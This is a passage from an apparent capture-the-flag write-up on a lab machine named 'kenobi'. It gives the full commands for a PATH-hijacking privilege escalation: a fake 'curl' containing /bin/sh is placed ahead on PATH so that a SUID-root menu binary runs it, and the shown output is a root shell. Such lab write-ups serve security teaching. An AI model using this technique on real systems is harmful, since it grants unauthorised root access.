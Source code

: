 The first option in the menu is running curl as a command in a SUID that is owned by root. This means we can copy a shell program, rename it curl, and the SUID file will run it as root. In this case, we can rename a shell script, call it curl, and have it execute as root, thus giving us root priviledge. Make sure to give the copied curl file 777 permissions so anyone and everyone can read, write, and execute.
```
echo /bin/sh > curl
chmod 777 curl
```

Now we need its location to our path.
```
export PATH=~:$PATH
```

Lets run /usr/bin/menu again and select option 1.
```
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
```

We have successfully gained root.





